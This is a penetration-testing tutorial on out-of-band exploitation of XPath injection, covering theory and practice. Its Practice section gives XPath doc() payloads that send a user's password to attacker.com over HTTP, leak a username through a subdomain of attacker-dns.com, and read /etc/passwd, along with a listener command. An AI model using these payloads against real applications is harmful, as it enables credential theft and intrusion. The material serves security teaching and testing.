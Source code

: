 ```yaml
---
title: Out of Band Exploitation in XPath Injection
description: Explore out-of-band exploitation techniques in XPath injection for data
  exfiltration via DNS and HTTP.
keywords:
- OOB exploitation
- XPath injection
- data exfiltration
- HTTP callback
- DNS exfiltration
- XML external entity
- doc() function
- file inclusion
---
```


# Out Of Band Exploitation

## Context

Out Of Band (OOB) exploitation in XPath injection enables attackers to exfiltrate data or interact with external systems using injected XPath queries. This approach is essential when traditional data extraction methods fail due to blind injection constraints or lack of error messages. A sound understanding of XPath query syntax, XML document structure, HTTP, and DNS protocols is assumed, alongside familiarity with standard XPath injection techniques.

## Theory

### Out-of-Band (OOB) Exploitation in XPath Injection

OOB exploitation leverages the ability to trigger external interactions such as DNS queries or HTTP requests using injected XPath payloads. This technique is particularly effective in contexts where direct data extraction is impeded. An attacker can inject an XPath payload that causes the backend system to issue an external request, which is then captured and analyzed for sensitive data leakage. This technique's power lies in its ability to bypass traditional defenses that rely on error messages or direct output to detect vulnerabilities.

### External Document Access via XPath Functions

Certain XPath processors support functions like `doc()`, which can load and parse external XML documents. This capability can be exploited when user inputs are unsafely integrated into XPath expressions. By injecting calls to such functions with references to attacker-controlled resources, attackers can initiate file or network interactions unbeknownst to the application.

### Data Exfiltration Channels

Data exfiltration through OOB channels can occur via DNS queries, HTTP requests, or file reads. With this approach, an attacker encodes sensitive information into a resource identifier, such as a subdomain or URL path, that the system resolves or attempts to fetch externally. This indirect method of data leakage often goes unnoticed by standard monitoring and logging mechanisms.

### Integration with XXE and XML External Calls

XPath injection has parallels with XXE (XML External Entity) vulnerabilities, particularly when XML processors are configured to resolve external entities. This configuration can expose applications to network or file access initiated through XML calls. Applications often mistakenly assume that XML/XPath processors are isolated from making outbound calls, thus inadvertently expanding the attack surface for skilled adversaries.

## Practice

### Exfiltrate Data via `doc()` Function and HTTP Callback

To perform an OOB exploitation using the `doc()` function, set up an HTTP server to capture outbound requests from the target:

1. Start a local HTTP server to receive callbacks:
   
   ```bash
   python3 -m http.server 8080
   ```

2. Inject the following XPath payload into the vulnerable application:
   
   ```sql
   doc('http://attacker.com:8080/?leak='||/users/user[1]/password)
   ```

This payload crafts a malicious XPath query that causes the backend server to make a request to your server, appending the first user password as a URL parameter. Upon successful injection, sensitive data will be sent to your HTTP server via an OOB request.

### DNS-Based OOB Data Exfiltration via XPath Injection

For DNS-based data exfiltration, first configure a DNS server or use a DNS logging service capable of monitoring DNS queries:

1. Monitor DNS requests for unexpected lookups originating from the target host.
2. Inject the following XPath payload:
   
   ```sql
   doc('http://'||/users/user[1]/username||'.attacker-dns.com')
   ```

This payload encodes the username into the subdomain portion of a URL, triggering a DNS query to `attacker-dns.com`. The query will reveal the exfiltrated data as part of the domain name during resolution.

### File Inclusion via `doc()` Function in XPath

To exploit file inclusion vulnerabilities using the `doc()` function:

1. Inject the following XPath payload:

   ```sql
   doc('file:///etc/passwd')
   ```

2. Observe the application's behavior or error messages to determine if there is leakage of file content.

If successful, the application might inadvertently return or leak the contents of sensitive files like `/etc/passwd`, giving an attacker access to potentially critical information stored on the server.

## Tools

- **Burp Suite**
- **Responder**
- **tcpdump**
- **python3**